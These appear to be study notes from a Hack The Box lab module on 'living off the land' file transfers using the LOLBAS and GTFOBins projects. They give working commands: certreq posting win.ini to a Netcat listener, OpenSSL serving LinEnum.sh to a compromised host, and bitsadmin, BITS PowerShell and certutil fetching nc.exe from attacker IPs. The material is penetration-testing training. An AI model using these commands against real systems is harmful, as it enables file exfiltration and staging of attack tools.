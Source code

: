 # Living off The Land
- [Living off The Land](#living-off-the-land)
  - [**Using the LOLBAS and GTFOBins Project**](#using-the-lolbas-and-gtfobins-project)
    - [**LOLBAS**](#lolbas)
    - [**Upload win.ini to our Pwnbox**](#upload-winini-to-our-pwnbox)
    - [**File Received in our Netcat Session**](#file-received-in-our-netcat-session)
    - [**GTFOBins**](#gtfobins)
    - [**Create Certificate in our Pwnbox**](#create-certificate-in-our-pwnbox)
    - [**Stand up the Server in our Pwnbox**](#stand-up-the-server-in-our-pwnbox)
    - [**Download File from the Compromised Machine**](#download-file-from-the-compromised-machine)
- [**Other Common Living off the Land tools**](#other-common-living-off-the-land-tools)
    - [**Bitsadmin Download function**](#bitsadmin-download-function)
    - [**File Download with Bitsadmin**](#file-download-with-bitsadmin)
    - [**Download**](#download)
    - [**Certutil**](#certutil)
    - [**Download a File with Certutil**](#download-a-file-with-certutil)

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

---

## **Using the LOLBAS and GTFOBins Project**

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

### **LOLBAS**

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

![https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

### **Upload win.ini to our Pwnbox**

```
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```
th1nyunb0y@htb[/htb]$ sudo nc -lvnp 8000listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### **GTFOBins**

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

### **Create Certificate in our Pwnbox**

```
th1nyunb0y@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pemGenerating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```
th1nyunb0y@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

### **Download File from the Compromised Machine**

```
th1nyunb0y@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

# **Other Common Living off the Land tools**

### **Bitsadmin Download function**

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---

### **Certutil**

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```